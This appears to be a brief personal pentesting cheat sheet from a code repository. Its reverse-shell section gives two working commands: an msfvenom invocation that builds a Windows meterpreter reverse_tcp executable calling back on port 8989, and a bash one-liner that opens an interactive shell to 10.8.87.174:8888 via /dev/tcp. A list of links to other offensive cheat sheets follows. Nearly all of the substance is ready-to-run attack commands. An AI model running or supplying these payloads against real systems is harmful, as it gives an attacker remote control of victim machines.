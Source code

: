 # Pentesting CheatSheet

![](../Images/Hacking.gif | width=100)

This is a cheat sheet to pentesting it contains the code snippets i use during my pentesting job.

## ReverseShell
### Msfvenom Windows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=tun0 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe
```
### Bash

```bash
bash -i >& /dev/tcp/10.8.87.174/8888 0>&1
```


# Resource

- **[Read Team Notes](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)**
- **[Hausec](https://hausec.com/pentesting-cheatsheet/)**
- **[Pentest-Cheat-Sheets](https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets)**
